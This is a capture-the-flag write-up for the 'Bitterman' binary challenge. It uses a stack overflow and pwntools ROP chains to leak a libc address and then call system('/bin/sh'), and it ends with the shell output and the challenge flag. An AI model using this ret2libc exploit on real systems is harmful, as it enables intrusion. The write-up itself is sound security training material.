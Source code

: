 # Bitterman

## Recon

Upon connecting, we are given a prompt which asks for the following items:
* Name
* Length of a message
* The message itself

As per normal, let's try the low hanging fruit of throwing lots of data at each field to see if we get a crash.

Turns out, if we say that we will send 1024 bytes and send 1024 bytes, we crash *shrug* (If there is time after the CTF, I'll go back and see what exactly caused the crash)

## Exploit

Because NX is turned on, we need to do some fancy ROP. Our ROP strategy is below:
* Leak a libc address via ROPing to `puts()` with `puts` as the parameter. This will return the address of `puts` on the remote side. We can calculate the libc base address since we were given their libc in the problem (leaked_libc_read_address - original_libc_from_challenge = base_libc_on_server)
* Call main so we can re-exploit with the knowledge of the libc base address

This ROP construction is here:
```python
from pwn import *

elf = ELF('./bitterman')
rop = ROP(elf)

rop.puts(elf.got['puts'])
rop.call(elf.symbols['main'])

print rop.dump()
```

Leaking the address from this ROP chain and rebasing the libc address in pwntools is below:
```python
# Be sure to add the zeros that we miss due to string read
# Grab the first 8 bytes of our output buffer
leaked_puts = r.recv()[:8].strip().ljust(8, '\x00')

# Convert to integer
leaked_puts = struct.unpack('Q', leaked_puts)[0]

# Reset libc to the leaked offset
libc.address = leaked_puts - libc.symbols['puts']
```

From here, we can create a second ROP which will simply call `system` with `/bin/sh`. Luckily, `/bin/sh` is in libc, so we simply find where that string is, and call `system` on it.

The second ROP construction is below:

```python
# Create new ROP object with rebased libc
rop2 = ROP(libc)

# Call system('/bin/sh')
rop2.system(next(libc.search('/bin/sh\x00')))

print rop2.dump()
```

Our shell is received and the flag is given:

```python
$ ls
bitterman
flag.txt
run.sh
$ cat flag.txt
CAMP15_a786be6aca70bfd19b6af86133991f80
```
